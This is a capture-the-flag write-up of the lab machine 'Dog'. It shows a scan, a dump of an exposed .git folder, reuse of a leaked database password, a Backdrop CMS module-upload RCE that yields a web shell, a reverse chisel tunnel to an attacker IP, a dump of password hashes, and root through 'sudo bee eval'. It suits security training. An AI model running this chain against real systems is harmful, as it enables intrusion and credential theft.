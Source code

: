 # Dog

![dog.png](dog.png)

## Initial Enumeration

```bash
# Nmap 7.95 scan initiated Fri Mar 28 14:04:29 2025 as: nmap -sC -sV -Pn -oN scans/nmap.initial 10.10.11.58
Nmap scan report for 10.10.11.58
Host is up (0.089s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-title: Home | Dog
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar 28 14:04:40 2025 -- 1 IP address (1 host up) scanned in 11.06 seconds
```

## Git-dumper
The site is PHP backdrop on Apache and it has a `.git` folder exposed
```bash
git-dumper http://10.10.11.58 .
```

The version of backdrop is
```bash
grep BACKDROP_VERSION core/includes/bootstrap.inc
```
```
define('BACKDROP_VERSION', '1.27.1');
```

We find the creds to the mysql db, this may be useful later
```bash
$database = 'mysql://root:B******************@127.0.0.1/backdrop';
```

Running gitleaks, didn't find anyting really interesting
```bash
gitleaks detect . -r gileaks.json
```

Just the domain from the commiter's email address
```bash
jq .[].Email gileaks.json
```
```
"dog@dog.htb"
"dog@dog.htb"
"dog@dog.htb"
"dog@dog.htb"
"dog@dog.htb"
"dog@dog.htb"
```

Based on that we find tiffany, and confirm that this is a valid user from the login page of the webapp
```bash
grep -ri dog.htb ./*
```
```
./files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
```

Turns out the db password and tiffany  are valid creds to connect to the site
```bash
tiffany@dog.htb:B******************
```

## RCE in backdrop 1.27.1

Looking for exploits related to backdrop version '1.27.1' we find this

-[https://packetstorm.news/files/id/189764/](https://packetstorm.news/files/id/189764/)

And run it
```bash
php poc.php http://10.10.11.58
```
```
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

The ui already tells us that there's no php module for zip with may be a problem
![nozip.png](nozip.png)

It confirms that when we try to upload the zip from the exploit, but also tells us how to fix it.
![tar.png](tar.png)

So it's easy we can just bundle the exploit in tar for instance
```bash
tar cvf shell.tar shell
```

And that works, we just gotta go to the php web-shell and we have RCE
![rce.png](rce.png)

And we can of course call ourselves back to get a decent shell
![shell.png](shell.png)


## Using chisel to connect to the db

```bash
netstat -tulpne
```
```
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      114        36882      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      101        30942      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          33577      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      114        36881      -
tcp6       0      0 :::80                   :::*                    LISTEN      0          34392      -
tcp6       0      0 :::22                   :::*                    LISTEN      0          33675      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           101        30941      -
```
 
Build chisel with statically linked C libs and deploy it
```bash
CGO_ENABLED=0 go build .
```
```bash
./chisel server -p 4040 --socks5 --reverse
```
```bash
./chisel client 10.10.16.20:4040 R:1080:socks
```

Connect to the database
```bash
proxychains \
  mysql \
    -u root \
    -h 127.0.0.1 \
    --password='B******************' \
    -D backdrop \
    --skip-ssl \
    -A
```


```bash
MySQL [backdrop]> select name,pass,mail from users;
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
+-------------------+---------------------------------------------------------+----------------------------+
| name              | pass                                                    | mail                       |
+-------------------+---------------------------------------------------------+----------------------------+
|                   |                                                         |                            |
| jPAdminB          | $S$E7dig1GTaGJnzgAXAtOoPuaTjJ05fo8fH9USc6vO87T./ffdEr/. | jPAdminB@dog.htb           |
| jobert            | $S$E/F9mVPgX4.dGDeDuKxPdXEONCzSvGpjxUeMALZ2IjBrve9Rcoz1 | jobert@dog.htb             |
| dogBackDropSystem | $S$EfD1gJoRtn8I5TlqPTuTfHRBFQWL3x6vC5D3Ew9iU4RECrNuPPdD | dogBackDroopSystem@dog.htb |
| john              | $S$EYniSfxXt8z3gJ7pfhP5iIncFfCKz8EIkjUD66n/OTdQBFklAji. | john@dog.htb               |
| morris            | $S$E8OFpwBUqy/xCmMXMqFp3vyz1dJBifxgwNRMKktogL7VVk7yuulS | morris@dog.htb             |
| axel              | $S$E/DHqfjBWPDLnkOP5auHhHDxF4U.sAJWiODjaumzxQYME6jeo9qV | axel@dog.htb               |
| rosa              | $S$EsV26QVPbF.s0UndNPeNCxYEP/0z2O.2eLUNdKW/xYhg2.lsEcDT | rosa@dog.htb               |
| tiffany           | $S$EEAGFzd8HSQ/IzwpqI79aJgRvqZnH4JSKLv2C83wUphw0nuoTY8v | tiffany@dog.htb            |
+-------------------+---------------------------------------------------------+----------------------------+
9 rows in set (0.068 sec)
```

According to the hashcat examples pages those are drupal7 hashes.
```bash
hashcat --help|grep -i drupal
```
```
   7900 | Drupal7                                                    | Forums, CMS, E-Commerce
```

Couldn't really crack anything though, maybe because they're hashed? Or maybe because it's just a really hard hash to crack. I'm not sure.
```bash
hashcat -m 7900 hash.txt ~/.local/share/seclists/rockyou.txt
```

## Privesc with bee backdrop cli

```bash
grep 'sh$' /etc/passwd
```
```
root:x:0:0:root:/root:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
```

The whole database part was quite useless anyway since apparently, the same password works with johncusack
```bash
sshpass -p"B******************" ssh johncusack@dog.htb
```

johncusack can run bee, which is a non official cli tool for backdrop


-[https://backdropcms.org/project/bee](https://backdropcms.org/project/bee)
-[https://github.com/backdrop-contrib/bee](https://github.com/backdrop-contrib/bee)

```bash
sudo -l
```
```
[sudo] password for johncusack:
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

```bash
sudo bee cron
```
```
 ✔  Cron ran successfully.
```

I don't really know what's going on with that, looks like its counting the columns of the shell or something? is this my own rlwrap shell thing?
```bash
2025/03/28 16:58:10 CMD: UID=0     PID=2986   | sh -c if tput cols &>/dev/null; then  echo $(tput cols); else $(echo $COLUMNS); fi
```

There's also an eval feature in bee, that makes stings easy, calling myself back again with a decent shell as root
```bash
sudo bee eval "system('bash /dev/shm/shell.sh');"
```
